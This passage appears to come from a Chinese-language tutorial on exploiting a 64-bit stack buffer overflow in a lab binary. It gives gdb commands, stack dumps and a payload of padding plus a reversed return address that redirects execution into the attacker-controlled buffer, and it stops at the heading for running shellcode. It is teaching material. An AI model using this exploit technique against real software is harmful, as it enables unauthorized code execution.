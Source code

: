 * * *

事实上这部分内容没什么特别的或者新的东西你只需要指向你控制的缓冲区开头。也就是第一个 printf 显示出来的值在这里是 0x7fffffffdc90。通过 gdb 也可以很容易地重新获得这个值你只需在调用 strcpy 之后显示栈。

```
(gdb) x/4xg $rsp 
0x7fffffffdc80: 0x00007fffffffde98 0x00000002f7ffe520 
0x7fffffffdc90: 0x4141414141414141 0x4141414141414141 

```

是时候更新我们的载荷了。新的载荷看起来像这样

```
"A" * 264 + "\x7f\xff\xff\xff\xdc\x90"[::-1] 
```

因为是小端结构所以我们需要把内存地址反序。这就是 python 语句[::-1]所实现的。

确认下我们跳入正确的地址。

```
$ gdb -tui bof 
(gdb) set disassembly-flavor intel 
(gdb) layout asm 
(gdb) layout regs 
(gdb) break main 
(gdb) run $(python -c 'print "A" * 264 +  
"\x7f\xff\xff\xff\xdc\x90"[::-1]') 
(gdb) x/20xg $rsp 
0x7fffffffddb8: 0x00007fffffffdc90  0x0000000000000000 
0x7fffffffddc8: 0x00007fffffffde98 0x0000000200000000 
0x7fffffffddd8: 0x000000000040060d 0x0000000000000000 
0x7fffffffdde8: 0xe72f39cd325155ac 0x0000000000400520 
0x7fffffffddf8: 0x00007fffffffde90 0x0000000000000000 
0x7fffffffde08: 0x0000000000000000 0x18d0c63289d155ac 
0x7fffffffde18: 0x18d0d68b8eab55ac 0x0000000000000000 
0x7fffffffde28: 0x0000000000000000 0x0000000000000000 
0x7fffffffde38: 0x0000000000400690 0x00007fffffffde98 
0x7fffffffde48: 0x0000000000000002 0x0000000000000000 

```

这是执行 leave 指令后的栈。如我们所知 rsp 指向 0x7fffffffddb8。0x7fffffffddb8 的内容是 0x00007fffffffdc90。最后 0x00007fffffffdc90 指向我们控制的缓冲区。

```
(gdb) stepi 
```

ret 指令执行后 rip 指向 0x7fffffffdc90 这意味着我们跳入了正确的位置。

## 0x06 执行 shellcode

* * *
